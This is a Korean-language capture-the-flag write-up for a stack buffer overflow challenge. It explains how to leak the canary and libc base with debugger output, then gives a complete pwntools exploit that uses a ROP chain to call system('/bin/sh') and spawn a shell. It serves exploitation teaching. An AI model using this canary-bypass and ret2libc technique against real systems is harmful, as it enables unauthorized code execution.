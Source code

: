 카나리가 있고, 마스터 카나리를 조작하는 문제는 아니므로 카나리를 알아내야 합니다. 2번 메뉴로 `page5`(4번 인덱스)에 `0x98 + 1`(카나리의 첫 바이트는 `\x00`이기 때문에 1을 더합니다.)만큼 바이트를 입력한 후 1번 메뉴로 출력시켜 카나리를 알아냅니다.
비슷한 방법으로 `0xa8` 만큼 바이트를 입력한 후 출력시켜 `libc_base`를 알아낼 수 있습니다. `main` 함수 진행 중에 `ret` 값과 `backtrace`는 다음과 같습니다.

```
pwndbg> x/2gx $rbp
0x7fffffffe320: 0x0000000000000001      0x00007ffff7db3d90
pwndbg> backtrace
#0  0x00000000004011d8 in main ()
#1  0x00007ffff7db3d90 in __libc_start_call_main (main=main@entry=0x4011aa <main>, argc=argc@entry=1, argv=argv@entry=0x7fffffffe438) at ../sysdeps/nptl/libc_start_call_main.h:58
#2  0x00007ffff7db3e40 in __libc_start_main_impl (main=0x4011aa <main>, argc=1, argv=0x7fffffffe438, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe428) at ../csu/libc-start.c:392
#3  0x00000000004010b5 in _start ()
```

하지만 `pwndbg`는 `libc_start_call_main` 심볼을 찾지 못하기 때문에 `offset`을 직접 찾아줘야 합니다. `vmmap` 명령어를 통해 `gdb`상에서 `libc_base`를 찾을 수 있고, 두 값을 빼주면 `offset`을 구할 수 있습니다(`0x7ffff7db3d90 - 0x7ffff7d8a000 = 0x29d90`). `bof` 크기가 넉넉하기 때문에 `system('/bin/sh')`을 호출하는 방향으로 익스하겠습니다.
(ROPgadget 사용 방법은 전 포스팅 Chapter4에 소개되어 있으므로 생략하겠습니다.)

- 익스플로잇

```python
from pwn import *

p = process('./prob')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def read(idx : int) :
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(idx).encode())
    return p.recvline()[:-1]

def write(idx : int, msg : bytes) :
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())
    p.sendafter(b'> ', msg)

write(4, b'a' * 0x99)
canary = u64(b'\x00' + read(4)[0x99:][:7])
print("canary = " + hex(canary))

write(4, b'a' * 0xa8)
l.address = u64(read(4)[0xa8:][:6] + b'\x00' * 2) - 0x29d90
print("libc_base = " + hex(l.address))

ret = 0x40101a
binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']
pop_rdi = 0x2a3e5 + l.address
payload = b'a' * 0x98 + p64(canary) + b'b' * 0x8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
write(4, payload)

p.sendlineafter(b'> ', b'3')
p.interactive()
```
